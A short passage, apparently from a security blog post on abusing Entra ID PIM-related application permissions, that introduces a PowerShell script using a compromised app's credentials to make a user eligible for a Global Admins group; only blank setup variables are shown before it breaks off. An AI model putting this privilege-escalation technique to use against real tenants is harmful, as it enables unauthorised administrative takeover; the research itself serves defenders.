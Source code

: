 [![](/assets/images/blog/2024-07-31-abusing-pim-related-application-permissions-part-2/11_screenshot.png)](/assets/images/blog/2024-07-31-abusing-pim-related-application-permissions-part-2/11_screenshot.png)

The PowerShell code to leverage the compromised “Harmless app” and make our “Harmless user account” eligible as a member of the “Global Admins” group is as follows:

```
## Set SP info
$tid = ''
$appid = ''
$password = ''

# Set user info
$userId = ''

# Set group info
$groupId = ''
$groupRole = 'member'   # 'member' or 'owner'

# Acquire MS Graph access token
```